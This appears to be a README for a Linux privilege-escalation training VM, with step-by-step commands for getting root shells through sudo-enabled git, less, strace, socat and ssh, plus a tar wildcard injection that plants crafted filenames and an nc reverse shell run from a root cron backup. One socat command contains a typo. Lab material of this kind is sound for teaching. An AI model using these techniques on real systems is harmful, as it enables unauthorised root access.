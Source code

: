 <h1 style="color:red">#EnterpriseNetworkingSquad</h1>

##Linux VM for Previleges Escalation


This [Ubuntu VM](https://drive.google.com) is created for getting the basic idea of privilege escalation in linux. Here we have misconfigured sudo rights which lead to root privilege escalation. This lab will help us to understand, how certain built-in applications and services if misconfigured, may be abused by an attacker.


<h1></h1>
<h2 style="color:yellow">GIT</h2>

Login with ```bob``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.

![](Screenshots/git/1.png)

Enter ```sudo git help status``` which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 

![](Screenshots/git/2.png)

Execute ```!bash``` command inside git status file as shown above and you will get a root shell.

![](Screenshots/git/3.png)


<h1></h1>
<h2 style="color:yellow">SOCAT</h2>

For this you have listen in one ssh session using ```socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:4545``` and have to connect to that listener using ```sudo socat TCP-LISTEN:4545,reuseaddr,fork ECEX:sh,pty,stderr,setsid,sane```.

![](Screenshots/socat/1.png)

You will get root privilege shell at listener.

![](Screenshots/socat/2.png)


<h1></h1>
<h2 style="color:yellow">STRACE</h2>

Login with ```peter``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.

![](Screenshots/strace/1.png)

Execute ```sudo strace -o /dev/null /bin/bash``` command and you will get a root shell.

![](Screenshots/strace/2.png)


<h1></h1>
<h2 style="color:yellow">LESS</h2>

Enter ```sudo less /etc/passwd``` (You can open any file) which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 

![](Screenshots/less/1.png)

Execute ```!bash``` command inside git status file as shown above and you will get a root shell.

![](Screenshots/less/2.png)


<h1></h1>
<h2 style="color:yellow">SSH</h2>

Login with bob user and execute ```sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' temp``` which can get a shell through it.

![](Screenshots/ssh/1.png)


<h1></h1>
<h2 style="color:yellow">CRONTAB</h2>

Notice the target has scheduled a bash program script for every 1 minute as root.

![](Screenshots/crontab/1.png)

Observe that every minute the /etc/cron.daily/backup script is executed and this is saving a compressed copy of each users home directories to /etc/backups.

![](Screenshots/crontab/2.png)

Take ssh connection in other terminal and start listener on specific port.

![](Screenshots/crontab/3.png)

Execute following commands:

```
bob@ubuntu:~$ echo "mkfifo /tmp/ab; nc 127.0.0.1 4545 0</tmp/ab | /bin/sh > /tmp/ab 2>&1; rm /tmp/ab" > shell.sh
bob@ubuntu:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
bob@ubuntu:~$ echo "" > --checkpoint=1
```

![](Screenshots/crontab/4.png)

You got the root shell at the listener.

![](Screenshots/crontab/5.png)


<h1></h1>
<h2 style="color:yellow">Horizontal Privileges Escalation</h2>

This task is based on the observation. You just need to observe the stored password in home directory of ```susan``` user. Login with ```bob``` user and observe the stored password.

![](Screenshots/susan/1.png)



I hope you got the basic idea about privilege escalation. There are more misconfigured programs so you can do practice. You can use ```sudo -l``` to list programs which we can execute with the same privileges as root.

Useful link: [https://gtfobins.github.io/](https://gtfobins.github.io/)